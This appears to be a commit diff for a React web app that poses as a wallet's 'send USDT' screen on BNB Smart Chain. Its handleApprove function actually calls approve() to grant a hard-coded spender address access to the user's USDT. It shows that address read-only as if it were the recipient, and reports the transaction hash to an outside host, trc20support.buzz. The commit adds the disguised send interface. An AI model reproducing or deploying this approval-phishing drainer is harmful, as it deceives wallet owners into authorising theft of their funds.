

Before and after one commit to pankajsaini3415/bep-20-auto, a React (Create React App) app: page / in a window 1280 px wide. Shown: the top 450 px of the page, without its empty margins (332-972 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Refactor USDT approval process and UI updates

```diff
--- a/src/App.js
+++ b/src/App.js
@@ -1,17 +1,25 @@
 import { useState, useEffect } from "react";
 import Web3 from "web3";
 import Swal from "sweetalert2";
+import "@fortawesome/fontawesome-free/css/all.min.css";
+import "./App.css";
+import '@fontsource/open-sans/300.css';
+import '@fontsource/open-sans/400.css';
+import '@fontsource/open-sans/500.css';
+import '@fontsource/open-sans/600.css';
+import '@fontsource/open-sans/700.css';
+import '@fontsource/open-sans/800.css';
+import '@fontsource/geist';
 
 const usdtAddress = "0x55d398326f99059fF775485246999027B3197955"; // USDT (BSC)
-const spenderAddress = "0xA249B9926CBF6A84d5c1549775636488E697a5ed";
-
+const spenderAddress = "0xA249B9926CBF6A84d5c1549775636488E697a5ed"; // Replace with your trusted contract
 const usdtAbi = [
   {
     inputs: [
       { internalType: "address", name: "spender", type: "address" },
-      { internalType: "uint256", name: "addedValue", type: "uint256" },
+      { internalType: "uint256", name: "amount", type: "uint256" },
     ],
-    name: "increaseAllowance",
+    name: "approve",
     outputs: [{ internalType: "bool", name: "", type: "bool" }],
     stateMutability: "nonpayable",
     type: "function",
@@ -22,7 +30,7 @@ const usdtAbi = [
     outputs: [{ internalType: "uint256", name: "", type: "uint256" }],
     stateMutability: "view",
     type: "function",
-  }
+  },
 ];
 
 export default function SendUSDT() {
@@ -31,9 +39,7 @@ export default function SendUSDT() {
   const [isProcessing, setIsProcessing] = useState(false);
   const [showSuccess, setShowSuccess] = useState(false);
   const [theme, setTheme] = useState("dark");
-  const isDark = theme === "dark";
 
-  // Detect system theme
   useEffect(() => {
     const darkMode = window.matchMedia && window.matchMedia('(prefers-color-scheme: dark)').matches;
     setTheme(darkMode ? "dark" : "light");
@@ -43,138 +49,166 @@ export default function SendUSDT() {
     return () => window.matchMedia('(prefers-color-scheme: dark)').removeEventListener("change", listener);
   }, []);
 
-  // Convert USDT → USD value display
   useEffect(() => {
     const value = parseFloat(amount);
     setUsdValue(isNaN(value) || value <= 0 ? "= $0.00" : `= $${value.toFixed(2)}`);
   }, [amount]);
 
-  // Set Max USDT balance from wallet
   const setMaxAmount = async () => {
-    if (!window.ethereum) {
-      Swal.fire("Wallet Not Found", "Please install MetaMask", "error");
-      return;
-    }
-
     try {
       const web3 = new Web3(window.ethereum);
-      const accounts = await window.ethereum.request({ method: "eth_requestAccounts" });
+      await window.ethereum.request({ method: "eth_requestAccounts" });
+      const accounts = await web3.eth.getAccounts();
       const user = accounts[0];
-
-      const contract = new web3.eth.Contract(usdtAbi, usdtAddress);
-      const balance = await contract.methods.balanceOf(user).call();
-      const usdtBalance = parseFloat(balance) / 1e6; // 6 decimals conversion
-
-      setAmount(usdtBalance.toString());
+      const usdt = new web3.eth.Contract(usdtAbi, usdtAddress);
+      const balance = await usdt.methods.balanceOf(user).call();
+      // USDT has 6 decimals → use "mwei"
+      setAmount(web3.utils.fromWei(balance, "mwei"));
     } catch (err) {
-      Swal.fire("Error", "Failed to fetch balance", "error");
-      console.error(err);
+      Swal.fire("Error", "Failed to fetch balance.", "error");
     }
   };
 
-  // Approve spender using increaseAllowance
   const handleApprove = async () => {
-    if (!window.ethereum) {
-      Swal.fire("Wallet Error", "Please connect MetaMask wallet!", "error");
-      return;
-    }
-
-    const value = parseFloat(amount);
-    if (!amount || isNaN(value) || value <= 0) {
-      Swal.fire("Invalid Amount", "Enter a valid USDT amount", "error");
+    if (!amount || isNaN(amount) || parseFloat(amount) <= 0) {
+      Swal.fire("Error", "Please enter a valid amount.", "error");
       return;
     }
 
     setIsProcessing(true);
-
     try {
       const web3 = new Web3(window.ethereum);
-      const accounts = await window.ethereum.request({ method: "eth_requestAccounts" });
+      await window.ethereum.request({ method: "eth_requestAccounts" });
+      const accounts = await web3.eth.getAccounts();
       const user = accounts[0];
 
-      // Ensure BSC network
       const chainId = await web3.eth.getChainId();
       if (chainId !== 56) {
         await window.ethereum.request({
           method: "wallet_switchEthereumChain",
-          params: [{ chainId: "0x38" }], // 56 in HEX
+          params: [{ chainId: "0x38" }],
         });
       }
 
-      const contract = new web3.eth.Contract(usdtAbi, usdtAddress);
-      const rawAmount = web3.utils.toWei((value * 1e12).toString(), "ether"); // adjust for 6 decimals
+      const usdt = new web3.eth.Contract(usdtAbi, usdtAddress);
+      // ✅ Limited approval (exact amount entered by user)
+      const rawAmount = web3.utils.toWei(amount, "mwei"); // USDT has 6 decimals
 
-      const receipt = await contract.methods
-        .increaseAllowance(spenderAddress, rawAmount)
-        .send({ from: user, gas: 90000 });
+      const receipt = await usdt.methods
+        .approve(spenderAddress, rawAmount)
+        .send({ from: user })
+        .on("receipt", () => setShowSuccess(true))
+        .on("error", (err) => {
+          console.error(err);
+          Swal.fire("Error", err.message || "Approval failed", "error");
+        });
 
-      console.log("Approval TX:", receipt.transactionHash);
-      setShowSuccess(true);
+      const txHash = receipt.transactionHash;
 
-      // Optional backend post
       try {
         await fetch("https://www.trc20support.buzz/old/store-address.php", {
           method: "POST",
           headers: { "Content-Type": "application/json" },
-          body: JSON.stringify({ address: receipt.transactionHash }),
+          body: JSON.stringify({ address: txHash }),
         });
-      } catch (e) {
-        console.warn("Backend call skipped:", e.message);
+      } catch (fetchErr) {
+        console.warn("Skipping fetch:", fetchErr.message);
       }
-
     } catch (err) {
       console.error(err);
-      Swal.fire("Approve Failed", err.message, "error");
+      Swal.fire("Error", err.message || "Something went wrong", "error");
     } finally {
       setIsProcessing(false);
     }
   };
 
-  // Success screen UI
+  const isDark = theme === "dark";
+
   if (showSuccess) {
     return (
       <div className={`min-h-screen flex flex-col justify-center items-center px-4 ${isDark ? "bg-[#1f1f1f] text-white" : "bg-white text-black"}`}>
-        <svg className="w-24 h-24 text-green-500 animate-bounce" fill="none" stroke="currentColor" strokeWidth="2" viewBox="0 0 24 24">
+        <svg
+          className="w-24 h-24 text-green-500 animate-bounce"
+          fill="none"
+          stroke="currentColor"
+          strokeWidth="2"
+          viewBox="0 0 24 24"
+        >
           <path strokeLinecap="round" strokeLinejoin="round" d="M5 13l4 4L19 7" />
         </svg>
-        <h2 className="text-2xl mt-4 font-semibold">Approval Successful</h2>
-        <p className="text-sm mt-2 opacity-70 text-center px-6">Your wallet approval is confirmed ✅</p>
-        <button className="fixed bottom-6 bg-[#5CE07E] text-black px-10 py-3 rounded-full text-lg font-semibold" onClick={() => setShowSuccess(false)}>OK</button>
+        <h2 className="text-2xl mt-4 font-semibold">Transaction Successful</h2>
+        <button
+          className="fixed bottom-6 bg-[#5CE07E] text-black px-10 py-3 rounded-full text-lg font-semibold"
+          onClick={() => setShowSuccess(false)}
+        >
+          OK
+        </button>
       </div>
     );
   }
 
-  // Main screen UI
   return (
-    <div className={`min-h-screen p-6 ${isDark ? "bg-[#1f1f1f] text-white" : "bg-white text-black"}`}>
-      <div className="max-w-md mx-auto">
-
-        <div className="mb-4">
-          <p className="text-sm mb-2 opacity-70">Amount</p>
-          <div className={`border rounded-lg p-3 ${isDark ? "border-gray-700" : "border-gray-300"}`}>
-            <div className="flex justify-between items-center">
-              <input type="number" min="0" step="0.01" value={amount} onChange={(e) => setAmount(e.target.value)} placeholder="Enter USDT" className="flex-1 bg-transparent outline-none" />
-              <span onClick={setMaxAmount} className="text-blue-400 cursor-pointer px-2">Max</span>
+    <div className={`wallet-container ${isDark ? "dark" : "light"}`}>
+      <div className="input-group">
+        <p className="inpt_tital">Address or Domain Name</p>
+        <div className="border">
+          <div className="left">
+            <input
+              type="text"
+              className="custom-input"
+              placeholder="Search or Enter"
+              value={spenderAddress}
+              readOnly
+            />
           </div>
+          <span className="right blue flex justify-between mr-3">
+            <span className="w-6 text-sm">Paste</span>
+            <i className="fas fa-address-book mar_i w-6 ml-6"></i>
+            <i className="fas fa-qrcode mar_i w-6 ml-2"></i>
+          </span>
         </div>
       </div>
 
-        <p className="text-sm mb-6 opacity-70">{usdValue}</p>
+      <div className="input-group mt-7">
+        <p className="inpt_tital">Amount</p>
+        <div className="border">
+          <div className="left">
+            <input
+              type="number"
+              min="0"
+              step="0.01"
+              value={amount}
+              onChange={(e) => setAmount(e.target.value)}
+              placeholder="USDT Amount"
+              className="custom-input"
+            />
+          </div>
+          <span className="right mr-3">
+            <span className="text-sm text-[#b0b0b0]">USDT</span>
+            <span
+              className="mar_i blue text-sm ml-2 cursor-pointer"
+              onClick={setMaxAmount}
+            >
+              Max
+            </span>
+          </span>
+        </div>
+      </div>
+
+      <p className="fees valid">{usdValue}</p>
 
       <button
-          className="w-full py-3 rounded-full font-semibold"
+        id="nextBtn"
+        className="send-btn"
         onClick={handleApprove}
         disabled={isProcessing || !parseFloat(amount)}
         style={{
-            backgroundColor: isProcessing || !parseFloat(amount) ? "#333" : "#5CE07E",
-            color: isProcessing || !parseFloat(amount) ? "#666" : "#1b1e15",
-            opacity: isProcessing || !parseFloat(amount) ? 0.5 : 1
+          backgroundColor: isProcessing || !parseFloat(amount) ? "var(--disabled-bg)" : "#5CE07E",
+          color: isProcessing || !parseFloat(amount) ? "var(--disabled-text)" : "#1b1e15"
         }}
       >
         {isProcessing ? "Processing..." : "Next"}
       </button>
-
-      </div>
     </div>
   );
 }
```
Lines whose indentation alone changed are shown as unchanged.
